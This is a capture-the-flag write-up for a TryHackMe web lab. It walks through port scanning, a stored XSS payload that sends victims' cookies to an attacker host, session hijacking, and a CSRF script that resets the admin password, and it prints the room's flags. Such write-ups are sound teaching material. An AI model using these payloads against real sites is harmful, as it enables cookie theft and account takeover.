









# What's Your Name? - TryHackMe Writeup

[](https://tryhackme.com/room/whatsyourname)
[](#)

> **Room Link:** [What's Your Name?](https://tryhackme.com/room/whatsyourname)

---

## Table of Contents

1. [Challenge Scenario](#challenge-scenario)
2. [Initial Setup](#initial-setup)
3. [Enumeration](#enumeration)
   - [Port Scanning](#port-scanning)
   - [Web Application Analysis](#web-application-analysis)
4. [Exploitation](#exploitation)
   - [Stored XSS & Cookie Hijacking (Moderator Flag)](#stored-xss--cookie-hijacking-moderator-flag)
   - [CSRF via Admin Bot (Admin Flag)](#csrf-via-admin-bot-admin-flag)
5. [Summary of Flags](#summary-of-flags)

---

## Challenge Scenario

> This challenge tests client-side exploitation skills, ranging from inspecting JavaScript and manipulating cookies to launching CSRF and XSS attacks.
>
> Add the hostname `worldwap.thm` to your `/etc/hosts` file.
>
> _"Never click on links received from unknown sources. Can you capture the flags and get admin access to the web app?"_

---

## Initial Setup

First, map the lab target IP address to `worldwap.thm` in `/etc/hosts`:

```bash
10.49.150.254   worldwap.thm
```

---

## Enumeration

### Port Scanning

Initial discovery using `rustscan` revealed three open ports:

```bash
Open 10.49.150.254:22
Open 10.49.150.254:80
Open 10.49.150.254:8081
```

A detailed Nmap service scan provided additional details on the exposed services:

```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 55:72:c3:2d:94:e1:9a:7c:a5:d2:dd:56:06:91:d0:52 (RSA)
|   256 12:d5:7a:63:23:66:25:42:0a:bb:58:51:91:74:5d:de (ECDSA)
|_  256 a6:ed:80:24:07:c5:01:cb:f3:56:60:cf:7a:e1:f5:84 (ED25519)
80/tcp   open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Welcome
|_Requested resource was /public/html/
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
8081/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web Application Analysis

We have two HTTP services running on ports **80** and **8081**.

Checking port **8081** using `curl` returns an interesting HTML comment suggesting an upcoming update:

```bash
❯ curl -si http://worldwap.thm:8081/
HTTP/1.1 200 OK
Date: Fri, 11 Sep 2026 14:26:44 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 70
Content-Type: text/html; charset=UTF-8

<!-- login.php should be updated by Monday for proper redirection -->
```

Visiting port **80** in the browser displays the main web application page:


Registering a dummy user and attempting to log in yields a message stating `user not verified`, indicating that account activation or admin verification is required before logging in normally:





Inspecting the web browser developer console reveals a security warning regarding insecure form submissions:



In the Network tab, we can observe cleartext parameter transmission during form submission, highlighting poor security practices:



---

## Exploitation

### Stored XSS & Cookie Hijacking (Moderator Flag)

Since user registration inputs are stored and reviewed by administrative/moderator bots, we can inject a Stored Cross-Site Scripting (XSS) payload into the registration fields to steal session cookies.

We start a local HTTP listener on our attacking machine to capture incoming requests:

```bash
sudo php -S 0.0.0.0:80
```

Next, we register a user with the following XSS payload injected into the profile input fields:

```html
<script>
  fetch("http://<ATTACKER_IP>?cookie=" + btoa(document.cookie), {
    method: "GET",
  });
</script>
```



When an automated crawler/moderator views the newly registered user profile, our XSS payload fires and sends a Base64-encoded cookie string to our PHP web server listener:

```bash
❯ sudo php -S 0.0.0.0:80
[Sat Sep 12 18:12:28 2026] PHP 8.4.23 Development Server (http://0.0.0.0:80) started
[Sat Sep 12 18:13:01 2026] 10.49.136.23:35526 Accepted
[Sat Sep 12 18:13:01 2026] 10.49.136.23:35526 [404]: GET /us - No such file or directory
[Sat Sep 12 18:13:01 2026] 10.49.136.23:35526 Closing
[Sat Sep 12 18:13:01 2026] 10.49.136.23:35524 Accepted
[Sat Sep 12 18:13:01 2026] 10.49.136.23:35528 Accepted
[Sat Sep 12 18:13:01 2026] 10.49.136.23:35524 [404]: GET /email - No such file or directory
[Sat Sep 12 18:13:01 2026] 10.49.136.23:35524 Closing
[Sat Sep 12 18:13:01 2026] 10.49.136.23:35528 [404]: GET /name - No such file or directory
[Sat Sep 12 18:13:01 2026] 10.49.136.23:35528 Closing
[Sat Sep 12 18:13:01 2026] 10.49.136.23:35530 Accepted
[Sat Sep 12 18:13:01 2026] 10.49.136.23:35532 Accepted
[Sat Sep 12 18:13:01 2026] 10.49.136.23:35532 [404]: GET /?cookie=UEhQU0VTU0lEPXI5dGl0MWVtZ2JmZTdpMGY3a3E3MHBlbmZp - No such file or directory
[Sat Sep 12 18:13:01 2026] 10.49.136.23:35532 Closing
```

Decoding the captured Base64 string reveals the active moderator session ID:

```bash
❯ echo 'UEhQU0VTU0lEPXI5dGl0MWVtZ2JmZTdpMGY3a3E3MHBlbmZp' | base64 -d
PHPSESSID=r9tit1emgbfe7i0f7kq70penfi
```

Now let's change this with our cookie and try to login.

### Hijacking the Session

> [!NOTE]
> To hijack the session in Firefox / Chrome Developer Tools:
>
> 1. Open **Developer Tools** (`F12` or right-click -> `Inspect`).
> 2. Navigate to the **Storage** (or **Application**) tab -> **Cookies**.
> 3. Replace your current `PHPSESSID` cookie value with `r9tit1emgbfe7i0f7kq70penfi`.

After replacing the cookie and refreshing the page, we access the authenticated dashboard:

After Adding with this cookie and reloading the page when we go the dashboard we are greeted with the given



The dashboard indicates that an operational subdomain exists at `login.worldwap.thm`. We append this entry to `/etc/hosts`:

```bash
10.49.150.254   login.worldwap.thm
```

Navigating to `http://login.worldwap.thm/profile.php` with our hijacked session yields the **Moderator Flag**:


> **Moderator Flag:** `ModP@wnEd`

---

### CSRF via Admin Bot (Admin Flag)

Most admin functions are restricted. However, navigating to `chat.php` reveals a chat room with an active **Admin Bot**:



Testing input fields on the chat board confirms that the `Admin Bot` parses and executes inline scripts without proper HTML sanitization. We can exploit this Stored XSS vulnerability to perform a Cross-Site Request Forgery (CSRF) attack on the Admin Bot, forcing it to reset the administrator password.

We send the following payload to the Admin Bot chat:

```html
<script>
  window.onload = function () {
    var form = document.createElement("form");
    form.method = "POST";
    form.action = "ht" + "tP://" + "login.worldwap.thm/change_password.php";
    var input = document.createElement("input");
    input.type = "hidden";
    input.name = "new_password";
    input.value = "hello";
    form.appendChild(input);
    document.body.appendChild(form);
    form.submit();
  };
</script>
```

When the Admin Bot renders our message, the script executes, creating and submitting a `POST` request to `http://login.worldwap.thm/change_password.php` to update the admin account password to `hello`.



And after a short duration we can log in as `admin`:



> **Admin Flag:** `AdM!nP@wnEd`

---

## Summary of Flags

| Role               | Flag          |
| :----------------- | :------------ |
| **Moderator Flag** | `ModP@wnEd`   |
| **Admin Flag**     | `AdM!nP@wnEd` |

---

_Room Solved!_
